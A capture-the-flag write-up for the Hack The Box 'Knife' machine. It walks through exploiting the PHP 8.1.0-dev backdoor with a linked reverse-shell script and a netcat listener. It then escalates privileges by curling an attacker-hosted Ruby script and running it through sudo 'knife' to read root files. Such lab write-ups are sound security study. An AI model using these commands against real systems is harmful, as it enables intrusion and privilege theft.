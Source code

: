 # Knife
This is an Easy box, utilizes a recently famous vulnerability to gain access through RCE.

![Knife](../Images/htb_knife_1.png)

**Tools: nmap, whatweb, netcat.**

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 -p- 10.10.10.242`

![Knife](../Images/htb_knife_2.png)

We can see that port 80 is open, but upon checking the webpage there's nothing important, not even in the source. A fuzzer also won't find anything useful.  
With the whatweb tool, we're able to see that the webpage uses PHP 8.1.0-dev, a version that had a backdoor installed through the official GitHub repository, and this vulnerability allows an attacker to perform a Remote Code Execution (RCE).

![Knife](../Images/htb_knife_3.png)

The exploit at the exploit-db page was causing me some trouble during my attempts to spawn a fully interactive shell, start a reverse shell or escalate my privileges, so I found another exploit at [**this github repo**](https://github.com/flast101/php-8.1.0-dev-backdoor-rce).

![Knife](../Images/htb_knife_4.png)

Start a netcat listener in your machine:  
`nc -vnlp 9001`

Then in another terminal window we can run the exploit with the command:  
`python3 revshell_php_8.1.0-dev.py <targetURL> <hostIP> <port>`

![Knife](../Images/htb_knife_5.png)

With this, we get a reverse shell as the user 'james'. We can get the user flag from this account's home directory.  
`cat /home/james/user.txt`

![Knife](../Images/htb_knife_6.png)

Next up, with 'sudo -l' we see that the user can run the 'knife' binary with sudo privileges. If we try to run it, we get the tool's help, and after reading through the options, we see this one:

![Knife](../Images/htb_knife_7.png)

We can create a Ruby script to either escalate our privileges, or, in this case, read the root flag right away:  
`puts File.read("/root/root.txt")`

Save it to a ruby file (.rb)  

I started a python http server in my machine:  
`python3 -m http.server 80`

![Knife](../Images/htb_knife_8.png)

Now we simply need to download the file with curl and then run the command to execute the script in the box:  
```
curl <hostIP>/rb.rb > /home/james/rb.rb  
sudo knife /home/james/rb.rb
```

![Knife](../Images/htb_knife_9.png)

And the root flag is ours..

**That's all for this one!**  
Thanks for reading and keep hacking!
